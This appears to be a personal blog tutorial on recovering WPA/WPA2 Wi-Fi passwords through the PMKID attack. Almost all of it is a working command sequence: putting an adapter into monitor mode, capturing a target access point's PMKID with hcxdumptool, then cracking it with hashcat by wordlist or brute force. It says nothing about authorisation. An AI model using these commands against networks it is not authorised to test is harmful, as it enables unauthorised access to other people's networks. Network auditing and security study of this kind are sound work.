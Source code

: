 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) find a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 and below Access Points (APs) without client involved.  That is 4-way handshake is no longer required.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods has been tried on the Deco X20 but failed including PMKID attack (tested on March 19, 2020).  I think this method cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)


The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 (and below) with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ":" from the address.  From ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3
```

When you see ```[FOUND PMKID]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

Samiux  
OSCE  OSCP  OSWP  
March 19, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

